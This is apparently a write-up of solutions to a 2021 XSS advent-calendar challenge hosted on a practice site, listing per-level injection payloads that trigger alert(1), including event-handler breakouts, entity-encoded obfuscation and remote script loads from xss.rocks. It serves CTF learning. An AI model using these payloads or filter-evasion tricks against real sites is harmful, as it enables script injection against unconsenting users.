 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

Helpful resources and tools:

* En-/Decoding: https://gchq.github.io/CyberChef/

---

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more. Tested with Firefox Version 95.0 (64-bit) on Windows.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9 *(yes, worked on Day 6 already)*
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 10 +++**  
https://xmass.compass-demo.com/level10
```
<body onpageshow=alert(1)>
```
**+++ Day 11 +++**  
https://xmass.compass-demo.com/level11
```
tbc
```
**+++ Day 12 +++**  
https://xmass.compass-demo.com/level12
```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```
alternative solution (no `alert(1)` but the script executes)
```
<script src=https://xss.rocks/xss.js></script>
```
**+++ Day 13 +++**  
https://xmass.compass-demo.com/level13
```
<script src="&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#120;&#115;&#115;&period;&#114;&#111;&#99;&#107;&#115;&sol;&#120;&#115;&#115;&period;&#106;&#115;"></script>
```
alternatively one character reference would be enough
```
<script src="h&#116;tps://xss.rocks/xss.js"></script>
```